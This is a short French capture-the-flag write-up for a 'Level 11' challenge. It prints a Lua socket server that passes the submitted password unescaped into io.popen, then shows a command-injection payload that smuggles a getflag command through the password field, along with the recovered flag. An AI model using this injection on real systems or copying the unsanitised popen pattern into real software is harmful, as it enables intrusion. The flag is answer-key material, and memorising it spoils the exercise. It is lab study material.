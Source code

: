 # LEVEL 11

- Let's check what we have: `ls -la`:
```
level11.lua
```
We discover a new type of file with [lua extension](https://www.lua.org/about.html)
- `cat level11.lua`
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

1. On voit dans ce code que ca ouvre un socket sur localhost:5151 \
2. Quand on le lance on a une erreur comme quoi l'addresse n'est pas libre
3. On ouvre donc un autre terminal pour ecouter ce qu'il se passe sur le port 5151. Cette fois-ci le programme marche et nous demande un password.
`nc localhost 5151`
4. On capte qu'il faut bidouiller l'appel a `popen` pour afficher notre flag:
on aimerait que la commande :
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
se transforme en:
```lua
prog = io.popen("echo $getflag | sha1sum", "r")
```
On envoit donc la variable suivant lorsque le programme nous demande le mot de passe:
```bash
"echo 'lol'; getflag > /var/crash/flag11; echo 'lol' | sha1sum", "r"
```
result: \
`fa6v5ateaw21peobuub8ipe6s`

